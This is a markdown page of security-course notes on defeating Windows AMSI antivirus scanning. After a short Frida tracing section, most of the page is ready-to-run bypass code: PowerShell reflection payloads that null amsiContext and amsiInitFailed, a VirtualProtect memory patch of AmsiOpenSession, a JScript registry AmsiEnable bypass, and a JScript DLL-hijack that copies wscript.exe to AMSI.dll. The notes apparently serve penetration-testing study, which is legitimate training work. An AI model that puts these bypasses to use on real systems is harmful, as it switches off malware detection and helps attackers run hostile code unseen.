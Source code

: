 # AMSI

Anti Malware Scan Interface

AMSI is loaded into every PowerShell process and interacts with AV (by default Windows Defender). Exposed API:

* AmsiInitialize
* AmsiOpenSession
* AmsiScanString
* AmsiScanBuffer
* AmsiCloseSession

AmsiScanBuffer is used to check a buffer for malicious code. In case of ret = 32768, it is indeed malicious, ret = 1 means its clean.

### Tracing AMSI with Frida

Install Frida: Install python3 and then `pip install frida-tools` .

Trace AMSI (open PowerShell, then run the following):

```
frida-trace -p <powershell pid> -x amsi.dll -i Amsi*
```

When running a PowerShell command, we can see AmsiScanBuffer being called. On startup, Frida creates handlers - we can edit these to modify the trace behavior. We can for example log the argument buffer:

On windows, it will be located here:

```
C:\Users\Offsec\__handlers__\amsi.dll\AmsiScanBuffer.js
```

Then change:

```js
onEnter: function (log, args, state) {
  log('[*] AmsiScanBuffer()');
  log('|- amsiContext: ' + args[0]);
  log('|- buffer: ' + Memory.readUtf16String(args[1]));
  log('|- length: ' + args[2]);
  log('|- contentName ' + args[3]);
  log('|- amsiSession ' + args[4]);
  log('|- result ' + args[5] + "\n");
  this.resultPointer = args[5];
},

onLeave: function (log, retval, state) {
  log('[*] AmsiScanBuffer() Exit');
  resultPointer = this.resultPointer;
  log('|- Result value is: ' + Memory.readUShort(resultPointer) + "\n");
}
```

```bash
log(' amsiContext: ' + args[0]);
log(' buffer: ' + Memory.readUtf16String(args[1]));
```

### Bypass: Zero out AmsiContext

AmsiContext has a PTR to a buffer that starts with the string "AMSI", if we patch this string out, AMSI is disabled.

We can do this by using Reflection to get the pointer to AmsiContext and then write zero to the buffer:

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

'amsiutils'
```

Alternatively we can also set the "AmsiInitialize"-Field to null using the same technique (to evade AV use the same technique as above to improve it):

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFai
led','NonPublic,Static').SetValue($null,$true)
```

### Bypass: Patch AMSI AmsiOpenSession Instruction

We can disable AMSI by overwriting only three bytes of memory inside the _AmsiOpenSession_ API. Modify the first instruction of _AmsiOpenSession_ directly from PowerShell with the help of Win32 APIs.

```powershell
function LookupFunc {
  Param ($moduleName, $functionName)
  $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
  $tmp=@()
  $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
  return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
  Param (
    [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func, [Parameter(Position = 1)] [Type] $delType = [Void]
  )
  $type = [AppDomain]::CurrentDomain.
  DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
  DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
  $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
  $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
  return $type.CreateType()
}

# make memory writeable
[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32],[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

# Overwrite AMSI Bytes (TEST RDX, RDX -> XOR RAX RAX)
$buf = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)

# set old memory permissions again
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

### Bypass: AMSI in JScript

In order to use a DotNetToJscript payload, we'll need to bypass AMSI. However, when bypassing AMSI in PowerShell, we relied on reflection or Win32 APIs, but these techniques are not available from Jscript.

Security researcher Tal Liberman discovered that Jscript tries to query the "AmsiEnable" registry key from the HKCU hive before initializing AMSI. If this key is set to "0", AMSI is not enabled for the Jscript process.

This query is performed in the _`JAmsi::JAmsiIsEnabledByRegistry`_ function inside Jscript.dll, which is only called when wscript.exe is started.

The Jscript implementation of AMSI reveals that _`AmsiScanString`_and _`AmsiScanBuffer`_get called but _`AmsiOpenSession`_does not. Jscript handles each command in a single session while PowerShell processes each in a separate session. We can not access Win32 APIs from JScript so we need another way using the Registry:

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try {
    var AmsiEnable = sh.RegRead(key);
    if(AmsiEnable!=0){
    throw new Error(1, '');
}
} catch(e) {
    sh.RegWrite(key, 0, "REG_DWORD");
    sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName,0,1);
    sh.RegWrite(key, 1, "REG_DWORD");
    WScript.Quit(1);
}
```

Alternatively we can copy/rename wscript.exe to AMSI.dll, causing AMSI loading to fail.

We know that AMSI requires AMSI.DLL. If we could prevent AMSI.DLL from loading or load our own version of it, we could force the AMSI implementation in wscript.exe to produce an error and abort.

While it seems logical to attempt to simply overwrite AMSI.DLL, we must have administrative permissions to overwrite anything in `C:\Windows\System32`. We could, however, perform a DLL hijacking attack by exploiting the DLL search order.

```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try {
    if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0){
        throw new Error(1, '');
    }
} catch(e) {
    filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
    sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName);
    WScript.Quit(1);
}
```

